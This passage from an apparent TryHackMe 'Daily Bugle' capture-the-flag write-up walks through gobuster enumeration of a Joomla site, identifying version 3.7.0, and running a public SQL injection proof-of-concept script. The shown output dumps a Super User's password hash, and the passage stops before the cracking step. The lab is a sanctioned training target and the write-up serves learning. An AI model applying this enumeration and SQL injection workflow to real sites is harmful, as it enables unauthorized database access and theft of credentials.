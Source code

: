   Analyzing all of the files in this directory did not yeild a Joomla version. So, back to running gobuster on the various endpoints found from our intial scans. In the `/language/` directory, we find another directory `/en-GB/`:
  ```bash
  jeffrowell@kali:~/Documents/TryHackMe/Daily Bugle$ gobuster dir -u http://$IP/language -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt
  ===============================================================
  Gobuster v3.0.1
  by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
  ===============================================================
  [+] Url:            http://10.10.27.26/language
  [+] Threads:        10
  [+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-1.0.txt
  [+] Status codes:   200,204,301,302,307,401,403
  [+] User Agent:     gobuster/3.0.1
  [+] Timeout:        10s
  ===============================================================
  2020/05/17 20:27:06 Starting gobuster
  ===============================================================
  /en-GB (Status: 301)
  ```
  Opening up the `/language/en-GB/` directory in our browser yeilds a lot of files:

  ![files](https://user-images.githubusercontent.com/32188816/82169540-01ff5280-987f-11ea-876c-0d59b5523979.png)

  At the bottom of the page we find a  `en-GB.xml` file, which contains the Joomla version:
  ![version](https://user-images.githubusercontent.com/32188816/82169618-3bd05900-987f-11ea-8878-9c1a7343dd70.png)


2. **Instead of using SQLMap, why not use a python script!**

    What is Jonah's cracked password?

  So the challenge recommends using a python script, but I first started with some basic sqlmap, but to no avail. After doing some research, [this script](https://github.com/stefanlucas/Exploit-Joomla/blob/master/joomblah.py) is a working PoC Joomla 3.7.0 SQLi exploit. After downloading the script locally and running it, we are able to obtain the password hash of Jonah:
  ```bash
  jeffrowell@kali:~/Documents/TryHackMe/Daily Bugle$ python joomla.py http://$IP

    .---.    .-'''-.        .-'''-.
    |   |   '   _    \     '   _    \                            .---.
    '---' /   /` '.   \  /   /` '.   \  __  __   ___   /|        |   |            .
    .---..   |     \  ' .   |     \  ' |  |/  `.'   `. ||        |   |          .'|
    |   ||   '      |  '|   '      |  '|   .-.  .-.   '||        |   |         <  |
    |   |\    \     / / \    \     / / |  |  |  |  |  |||  __    |   |    __    | |
    |   | `.   ` ..' /   `.   ` ..' /  |  |  |  |  |  |||/'__ '. |   | .:--.'.  | | .'''-.
    |   |    '-...-'`       '-...-'`   |  |  |  |  |  ||:/`  '. '|   |/ |   \ | | |/.'''.     |   |                              |  |  |  |  |  |||     | ||   |`" __ | | |  /    | |
    |   |                              |__|  |__|  |__|||\    / '|   | .'.''| | | |     | |
 __.'   '                                              |/'..' / '---'/ /   | |_| |     | |
|      '                                               '  `'-'`       \ \._,\ '/| '.    | '.
|____.'                                                                `--'  `" '---'   '---'

 [-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: fb9j5_users
  -  Extracting users from fb9j5_users
 [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
  -  Extracting sessions from fb9j5_session
  ```
Now that we have the hash, we can use JtR to crack the hash. Here we are going to use the `rockyou.txt` wordlist:
``` bash
```
